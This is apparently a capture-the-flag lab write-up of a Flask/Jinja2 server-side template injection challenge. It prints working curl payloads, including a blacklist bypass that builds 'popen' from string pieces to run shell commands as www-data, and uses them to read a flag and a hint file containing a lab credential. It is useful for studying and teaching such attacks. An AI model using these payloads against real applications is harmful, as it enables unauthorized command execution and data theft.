







# M1 — NIGCL Portal | Red Team Solution

**Status:** Steps 1–6 completed and verified on Kali Linux. Step 7 (reverse shell / M2 discovery) intentionally deferred because M2 has not been deployed.  
**Attacker:** Kali Linux, `192.168.222.128` (observed in application logs).  
**Target:** `http://192.168.222.130` on port 80.  
**Issue:** Flask/Jinja2 server-side template injection (SSTI) with blacklist bypass.  
**Technique:** MITRE ATT&CK T1190 — Exploit Public-Facing Application.  
**Original solution:** https://github.com/hacktifytechnologies/Range4/blob/main/machines/M1-nigcl-portal/solve_red.md

> The structure below follows the original Red Team writeup. Where its commands did not work on the deployed instance, the *actual tested and working* commands are documented and labelled. The accompanying images were supplied during this exercise.

## Step 1 — Reconnaissance ✅

**Command (Kali):**

```bash
curl -s http://192.168.222.130/robots.txt
```

**Observed output:**

```text
User-agent: *
Disallow: /portal/
Disallow: /inquiry/debug
Disallow: /opt/
```

The original guide also directs the operator to browse to `http://192.168.222.130/inquiry`, the public Technical Inquiry form.




## Step 2 — Confirm SSTI ✅

**Executed command (separate form fields to avoid merging them into one value):**

```bash
curl -s -X POST http://192.168.222.130/inquiry \
  --data-urlencode 'product_query={{7*7}}' \
  --data-urlencode 'request_type=test' \
  | grep "class='val'"
```

**Observed:** Response `QUERY` value was `49` rather than literal `{{7*7}}`, confirming evaluation of user-controlled Jinja2 expressions.




## Step 3 — Test the Blacklist ✅

The original writeup identifies filtering for tokens such as `config`, `__class__`, `__mro__`, `__subclasses__`, `__builtins__`, `import`, `eval`, `exec`, `open`, `os.system`, and `subprocess`.

**Test A:**

```bash
curl -s -X POST http://192.168.222.130/inquiry \
  --data-urlencode 'product_query={{config}}' \
  | grep -E 'inq-result|inq-err'
```

**Observed:** `Query processing error. Contact system administrator.`




**Test B:**

```bash
curl -s -X POST http://192.168.222.130/inquiry \
  --data-urlencode "product_query={{''.__class__}}" \
  | grep -E 'inq-result|inq-err'
```

**Observed:** Same `Query processing error` response. This shows rejection/error for these test cases; it does not by itself establish precisely which internal branch handled the expression.




## Step 4 — Bypass via Jinja2 Built-in Globals (RCE) ✅

**Original writeup:** Uses `cycler.__init__.__globals__.os.popen('id').read()` (and alternatively `lipsum`). Both literal `popen` payloads returned a query-processing error on this deployment because the blacklist strips `open`, which also occurs within `popen`.

**Working tested alternative:** Construct the method name at template-evaluation time using `'po'~'pen'`:

```bash
curl -s -X POST http://192.168.222.130/inquiry \
  --data-urlencode "product_query={{cycler.__init__.__globals__.os.__getattribute__('po'~'pen')('id').read()}}" \
  | grep "class='val'"
```

**Observed:** `uid=33(www-data) gid=33(www-data) groups=33(www-data)`.

This confirms operating-system command execution in the application's `www-data` security context.




## Step 5 — Read Flag 1 ✅

**Working command (same verified blacklist workaround):**

```bash
curl -s -X POST http://192.168.222.130/inquiry \
  --data-urlencode "product_query={{cycler.__init__.__globals__.os.__getattribute__('po'~'pen')('cat /opt/nigcl/classified/flag1.txt').read()}}" \
  | grep -A 2 "class='val'"
```

**Observed flag:**

```text
FLAG{c3e14298e83e5388_jinja2_ssti_rce}
```




## Step 6 — Read the Hint (to M2) ✅

```bash
curl -s -X POST http://192.168.222.130/inquiry \
  --data-urlencode "product_query={{cycler.__init__.__globals__.os.__getattribute__('po'~'pen')('cat /opt/nigcl/classified/hint.txt').read()}}" \
  | grep -A 6 "class='val'"
```

**Observed internal memo:**

```text
[NIGCL INTERNAL — IT OPERATIONS MEMO]
Contract Management API accessible on DMZ network — port 3000 (Node.js).
Default vendor credential: vendor_liaison / V3nd0r@N1GCL
JWT verification key exposed at /.well-known/public-key
Scan 11.0.0.0/8 on port 3000.
```

The memo provides leads intended for the next machine. The literal `11.0.0.0/8` is public address space outside an isolated lab, so discovery should be constrained to explicitly authorized lab routing.




## Step 7 — Reverse Shell and DMZ Enumeration ⏸ Deferred

**Reason:** M2 has not been deployed. No screenshot was supplied and no claim of reverse-shell establishment or discovery is made.

The original writeup's remaining lab procedure is to listen on TCP 4444, obtain a shell on M1, then discover the M2 service on port 3000 within the lab DMZ. The command's template injection must use the same verified blacklist workaround if resumed. Run network discovery only against verified, authorized lab networks.


## Conclusion

Red Steps 1–6 are supported by actual screenshots. SSTI, command execution as `www-data`, flag retrieval, and hint retrieval succeeded. M2 pivot is deferred, not completed.
